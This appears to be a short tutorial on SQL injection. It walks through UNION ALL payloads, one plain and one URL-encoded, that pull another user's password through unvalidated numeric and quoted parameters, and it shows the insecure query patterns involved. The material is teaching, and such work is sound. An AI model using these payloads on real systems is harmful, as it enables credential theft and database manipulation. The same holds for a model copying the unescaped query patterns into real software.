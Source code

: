 SQL Injection Attacks
=====================

SQL injection attacks take advantage of code that does not validate user input or properly escape (or quote) strings used in SQL queries.

Attack on column_id=$column_id
------------------------------

Lets say we have a page `mypage.html?user_id=1` which displays the greeting "Jimmy's Page"
The variable `user_id` is set to 1 and the page uses the insecure query `select name from users where user_id=$user_id`
If no validation takes place on the input for `$user_id` a SQL injection attach can be crafted to extract arbitary information from the database.

For example:

```
% set user_id "1 UNION ALL select password as name from users where user_id=2 order by name DESC LIMIT 1"
% set qry "select name from users where user_id=$user_id"
% select name from users where user_id=1 UNION ALL select password as name from users where user_id=2 order by name LIMIT 1
```

When this query runs it returns:

```
name   
----------
conner23
(1 row)
```

You might need to change the `order by` clause depending on the values in the database.

To pass this value of `user_id` to the page it needs to be url encoded.

```
% set user_id "1 UNION ALL select password as name from users where user_id=2 order by name DESC LIMIT 1"
% url mypage.html user_id
mypage.html?user%5fid=1+UNION+ALL+select+password+as+name+from+users+where+user%5fid%3d2+order+by+name+DESC+LIMIT+1
So the welcome message on the page will read "conner23's Page" and the 
```

So the welcome message on the page will read "conner23's Page" and the password for user 2 is compromised.

Similar attacks can be used on `UPDATE` and `INSERT` queries to manipulate or destroy the database.

Attack on column='$column'
--------------------------

A page uses the insecure qry `select name from users where email='$email'`

```
% set email "foo@bar.com' UNION ALL select password as name from users where user_id=2 order by name;--"
% set qry "select name from users where email='$email'"
select name from users where email='foo@bar.com' UNION ALL select password as name from users where user_id=2 order by name;--'
```

***Of course we don't store real passwords in plain text, we store a hash value instead but depending on the hash and the length of the password this may be trivial to crack.***